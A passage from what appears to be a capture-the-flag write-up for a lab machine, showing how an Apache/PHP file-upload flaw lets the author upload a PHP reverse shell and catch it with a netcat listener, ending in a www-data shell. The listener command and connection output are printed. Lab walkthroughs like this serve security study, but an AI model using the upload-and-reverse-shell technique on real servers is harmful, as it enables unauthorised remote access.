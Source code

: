 The endpoint for the photo is `studentphoto/duck.jpeg`. Let's try to go to that endpoint w/ the browser:

![](./md-images/academy-5.png)

The fact that we can see our duck in the browser means _the webserver is executing the file_, so we know if we upload some code _it will be executed_.

### Reverse Shell

Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP _executes on the server_, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/netcat.md) is listening on the port.

```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
